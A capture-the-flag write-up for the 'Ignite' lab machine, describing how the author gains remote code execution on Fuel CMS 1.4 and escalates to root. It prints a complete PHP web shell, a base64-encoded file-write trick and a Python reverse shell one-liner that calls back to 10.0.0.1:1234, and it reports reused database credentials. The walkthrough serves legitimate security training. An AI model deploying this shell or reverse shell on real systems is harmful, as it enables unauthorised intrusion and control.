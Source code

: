 # Ignite

"A new start-up has a few issues with their web server."

```
Root the box! Designed and created by DarkStar7471, built by lollava aka Paradox.

----------------------------------------------------

Enjoy the room! For future rooms and write-ups, follow @darkstar7471 on Twitter.
```

A nice simple VM for testing recently learned skills.

Rooting it took a few hours, largely because I messed around with shells and with privesc enumeration.

The challenge required two flags: a user flag, and a root flag.

## Recon

A nmap scan revealed a single port 80 website. Browsing to it revealed 'Fuel CMS 1.4'


## Exploit

This has a public RCE exploit, which I downloaded to Kali from exploit-db: https://www.exploit-db.com/exploits/47138

The code required a few tweaks: I removed the proxy config and changed the ip addresses, ports. Running it gave me a cmd prompt-like interface, allowing me to run simple commands on the remote server.

## Getting a Shell

I wanted to put a PHP shell on the server, to get something a little less janky than the RCE. Also, I wanted a reverse shell and common payloads didn't seem to work through the RCE.

All of my issues were likely due to URL encoding: standard PHP shells tend to have characters in them that break urls.

Ultimately the solution was some variation of:

1. using burp to encode a php payload as base 64
2. encoding that payload as url encoded
3. using the result with the RCE like: `echo [url encoded base64 payload] | base64 -d > shell.php`

The shell I used the most was:

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>
```

Its more complicated than `<?php system($_GET['cmd']); ?>`, but provides a nicer interface. You can even run LinEnum.sh through it and have a nice, browsable output.

## Getting a reverse shell

netcat wasn't the version with -e. The bash reverse shell didn't work either. I used [this trusty list of one liners](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and tried the PHP one liner, without luck, before trying the python one liner. Should have used that first, as its worked for me in the past. The oneliner was:

`python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'`

## Enumeration

The first flag was under `/home/www-data/user.txt` (might have been `flag.txt`, can't recall). Next step, root.

I ran LinEnum, which took a while, then went through the results carefully. Nothing obvious popped up. I'd already searched for SUID but couldn't find anything. Ultimately, after an hour, I noticed the server was running MySql.

I really should have guessed this straight away, as the CMS would need a database. I crawled the CMS website code to find the db creds (it was under `/fuel/modules/fuel/app/config/database.php` or something similar, so not straightforward) and the creds were `root:mememe`.

I tried these on the mysql instance, and while I could connect I couldn't see anything obvious. Eventually, on a whim, I tried using the creds as the creds for a linux user via `su` and they worked!

I was now root, and grabbed the final flag from the `/root` directory.